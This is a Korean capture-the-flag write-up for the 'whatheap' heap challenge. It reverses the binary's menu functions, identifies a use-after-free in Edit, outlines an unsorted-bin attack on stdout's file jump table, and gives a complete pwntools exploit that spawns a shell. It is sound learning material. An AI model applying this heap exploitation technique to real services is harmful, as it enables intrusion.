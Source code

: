 ```yaml
---
layout: post
title: BOB CTF - Whatheap Writeup
---
```


[Downoad](http://file.c2w2m2.com/prob/whatheap)

### Reversing

먼저 바이너리를 둘러보면, system("/bin/sh")를 실행시켜주는 함수가 있으니 염두해 두고 시작한다.

![menu](https://i.imgur.com/FOwXpeN.png)

다음과 같은 메뉴가 있다. 하나하나 차례대로 살펴보자.

#### Malloc

Malloc함수를 먼저 한줄한줄 뜯어보자.

![Malloc](https://i.imgur.com/Jl25J7o.png)

먼저 처음 for문을 통해서 비어있는 공간을 찾는다. 공간을 찾으면, Size를 입력받고 이 Size가 200 ~ 300 범위에 있는지를 확인한다.

![Malloc-2](https://i.imgur.com/PSKjfHc.png)

그리고 입력받은 Size만큼 malloc을 하고, Data를 넣는데, 이때 받는 Data의 최소 길이는 16byte다. 그 이후 View함수를 출력하여 값을 확인시켜준다.



#### Free

![Free](https://i.imgur.com/pmqoGiS.png)

처음에 LODWORD(heap_context[2 * a1 + 1])을 Check하는데, 이 flag가 Free가 되었는지를 확인하는 flag임을 확인할 수 있다.

만약 Free가 안되었을경우, free를 진행하고, flag를 세팅해준다.



#### Edit

![Edit](https://i.imgur.com/wGwR7Wh.png)

Edit함수에서는 context에 있는 data를 수정할 수 있다.

이부분에서 이 chunk가 free가 되었는지를 체크하지 않아서, 취약점이 발생한다.



#### View

![View](https://i.imgur.com/pNYuvcl.png)

View를 보면 엄청 길지만, 중요한것은 이부분밖에없다. Free에서 봤듯이 단순한 Free가 되었는지를 체크한다.



### Scenario

우리가 할 수 있는것은 단순히 free된 chunk를 수정할 수 있다는 것 밖에 없다.

여기서 우리가 할 수 있는 공격은 unsorted bin attack이 있다. 하지만 free된 chunk를 볼 수 없으므로, Libc leak이 불가능하다.

따라서 House of Orange같은 공격을 바로 진행하는것이 불가능하다. 

그러므로 unsorted bin attack으로 노려야 할곳은 바로 heap_context이다. 이부분에 있는 heap pointer를 덮음으로써, 

main_arena를 자유롭게 수정할 수 있게 된다. 이를 수정함으로써 unsorted bin attack으로 인해서 깨졌던 main_arena를 고칠 수 있고,

libc leak, heap leak을 진행할 수도 있다.  leak을 진행한 후에, main_arena를 Fake _IO_FILE_JUMP로 만들 수 있다. 

그 후에 고친 main_arena로 인해서 unsorted bin attack이 한번 더 진행이 가능하고,

이때 stdout에 있는 _IO_file_Jump를 타겟으로 unsorted bin attack을 진행하면, main_arena의 값이 적히게 된다.

그러면 puts가 불릴때, main_arena의 주소로 뛰게 될것이고, 여기에는 우리가 적은 oneshot의 주소가 있을테니 Shell을 얻을 수 있다.

1. Unsorted bin attack으로 heap_context를 overwrite
2. heap_context를 Edit하면서 heap & libc leak
3. leak후에 main_arena를 정상으로 고치고, 뒷부분엔 oneshot의 주소를 적음
4. 한번 더 Unsorted bin attack으로 stdout의 _IO_FILE_JUMP를 overwrite
5. Get shell



### Exploit

```python
from pwn import *
    
def Malloc(size, data):
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send(str(size))
    p.recvuntil(":> ")
    p.send(data)

def Free(idx):
    p.recvuntil(":> ")
    p.send('2')
    p.recvuntil(":> ")
    p.send(str(idx))

def Edit(idx, data):
    p.recvuntil(":> ")
    p.send('3')
    p.recvuntil(":> ")
    p.send(str(idx))
    p.recvuntil(":> ")
    p.send(data)

def View(idx):
    p.recvuntil(":> ")
    p.send('4')
    p.recvuntil(":> ")
    p.send(str(idx))

if __name__ == '__main__':
    p = process("./whatheap")
    elf = ELF("./prob")
    libc = elf.libc

    Malloc(256, "A"*16)
    Malloc(256, "B"*16)
    Free(0)

    Edit(0, p64(0) + p64(0x602070 - 0x10))
    Malloc(256, "C"*16)

    View(1)
    p.recvuntil("--+\n")
    p.recvuntil("|")
    leak2 = p.recvuntil("|")[:-1]
    leak2 = leak2[125:]
    leak2 = u64(leak2.ljust(8,'\x00'))
    log.info("Leak2 : 0x%x" % leak2)
    pause()
    Edit(1, "A"*32)

    View(1)
    p.recvuntil("A"*32)
    leak = u64(p.recv(6).ljust(8,'\x00'))
    libcbase = leak - 0x3c4b78 - 0x10

    log.info("Leak : 0x%x" % leak)
    log.info("Libcbase : 0x%x" % libcbase)
    pause()
    Edit(1, p64(leak2) + p64(0) + p64(leak-0x10)*2 + p64(0x00000000040097e)*4)

    IO_file_jump = libcbase + 0x3C56F8
    print "0x%x" % IO_file_jump
    Malloc(256, "D"*16)
    Malloc(256, "E"*16)
    Free(2)
    Edit(2, p64(leak) + p64(IO_file_jump - 0x10))
    
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send('256')
    p.interactive()


```

![shell](https://i.imgur.com/LOSmaI2.png)

참고로 이문제는 system32.kr에 올라와있는 pwnable문제를 매우 조금 수정한것이다..(grin)
